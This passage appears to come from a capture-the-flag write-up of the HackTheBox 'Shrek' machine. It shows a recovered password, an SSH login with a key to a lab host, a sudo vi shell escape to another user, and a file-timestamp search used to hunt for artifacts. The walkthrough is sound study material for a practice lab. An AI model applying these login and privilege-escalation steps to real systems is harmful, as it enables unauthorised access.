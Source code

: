 The output is:
> The password for the ssh file is: shr3k1sb3st! and you have to ssh in as: sec

We now know the password for the RSA key to SSH into the box as the user _sec_.
```markdown
chmod 600 key

ssh -i key sec@10.10.10.47
```

## Privilege Escalation

### Rabbit Hole

This part describes the rabbit hole of the box, which can be ignored.

Looking at the sudo privileges with the user _sec_, it shows that it is possible to execute **vi** as the user _farquad_:
```markdown
User sec may run the following commands on shrek:
    (farquad) NOPASSWD: /usr/bin/vi
```

Running `vi` as _farquad_ and starting a shell:
```markdown
sudo -u farquad /usr/bin/vi

# Command mode in vi
:!/bin/bash
```

In his home directory there is binary file called _mirror_ that outputs some text and has no special permissions.

### Incident Response methods

To find the real vulnerability we will use **Incident Response** methods to gain more information about the box as normal Linux Enumeration scripts won't find anything useful.

We imagine that the creator of the box is a hacker that left the _user.txt_ file in there. When looking for artifacts about what happened, the time of the creation of that file is very important. We need to know what happened before and after the creation of this file.
```markdown
-r--r--r-- 1 root root 33 Aug 22  2017 user.txt
```
```markdown
find / -type f -newermt 2017-08-20 ! -newermt 2017-08-24 -ls 2>/dev/null
```

This command looks for all files that were modified two days before and after the creation of the file.
Most files in _/var/log_ can be ignored. The interesting files are:
```markdown
-rw-------   1  root     root     97 Aug 22  2017  /var/spool/cron/root
-rw-r--r--   1  root     root     91 Aug 22  2017  /usr/src/thoughts.txt
```
